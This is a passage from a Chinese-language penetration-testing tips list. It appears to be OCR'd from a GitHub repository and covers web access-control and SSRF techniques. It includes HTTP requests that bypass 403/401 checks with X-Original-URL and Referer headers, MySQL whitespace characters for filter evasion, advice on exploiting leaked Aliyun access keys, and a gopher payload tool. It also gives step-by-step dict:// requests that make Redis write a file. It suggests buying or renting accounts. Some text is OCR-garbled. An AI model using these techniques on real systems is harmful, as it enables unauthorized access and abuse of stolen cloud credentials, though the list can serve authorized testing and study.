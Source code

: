 20、swagger组件特征固定title：`Swagger UI`

21、403和401的绕过小技巧：

![c437ffd30e608e079623ee01cf1b4ca](https://github.com/Power7089/PenetrationTest-Tips/blob/main/img/403%E7%BB%95%E8%BF%87.jpg)

22、盲测目录是否存在，如果存在该目录可能会自动在URL末尾添加`/`补全。

23、Mysql中可以利用的空白字符有：`%09,%0a,%0b,%0c,%0d,%20,%a0`

24、获取账号：文库，QQ群，github泄露，借/租/买账号。

25、如果泄露阿里云的 AKSK，可以使用AKSKtools工具进一步利用。`https://xz.aliyun.com/t/8429  `    

26、如果遇见后台页面一闪而过，接着让你登录，一般使用了权限认证方式，可以用一下方式进行绕过，或者遇见401,403,302，都可以尝试使用以下方法：

```
一、GET /xxx HTTP/1.1 à403
Host: test.com
绕过：
GET /xxx HTTP/1.1 à200
Host: test.com
X-Original-URL: /xxx

二、GET /xxx HTTP/1.1 à403
Host: test.com
绕过：
GET /xxx HTTP/1.1 à200
Host: test.com
Referer: http://test.com/xxx

三、302跳转：拦截并drop跳转的数据包，使其停留在当前页面。
四、前端验证：只需要删掉对应的遮挡模块，或者是验证模块的前端代码。
```

27、gopher协议使用限制：

![640.png](https://github.com/Power7089/PenetrationTest-Tips/blob/main/img/GOpher%E5%8D%8F%E8%AE%AE.png)

28、一款生成gopher协议payload的工具：

```
https://github.com/firebroo/sec_tools
```

29、Dict协议写入流程：

```
1.写入内容；
 dict://127.0.0.1:6379/set❌test

2.设置保存路径；
dict://127.0.0.1:6379/config:set:dir:/tmp/

3.设置保存文件名；
dict://127.0.0.1:6379/config:set:dbfilename:1.png

4.保存。
dict://127.0.0.1:6379/save
```
